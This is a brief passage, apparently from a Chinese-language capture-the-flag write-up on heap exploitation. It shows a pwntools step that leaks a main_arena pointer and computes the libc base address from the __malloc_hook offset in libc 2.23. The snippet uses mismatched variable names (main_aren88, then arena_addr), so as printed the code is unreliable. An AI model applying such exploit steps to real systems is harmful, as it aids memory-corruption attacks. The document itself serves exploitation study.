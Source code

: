    ![0xf](/img/image-20220725222331747.png)

8. 泄露libc基址

   ```python
   dump(1)
   p.recvuntil("Content: \n")
   p.recv(0x50)
   main_aren88 = u64(p.recv(8))
   main_arena_offset = ELF("libc-2.23.so").symbols["__malloc_hook"] + 0x10 #wiki上获取基址的方法 
   libc_base = arena_addr - main_arena_offset
   ```
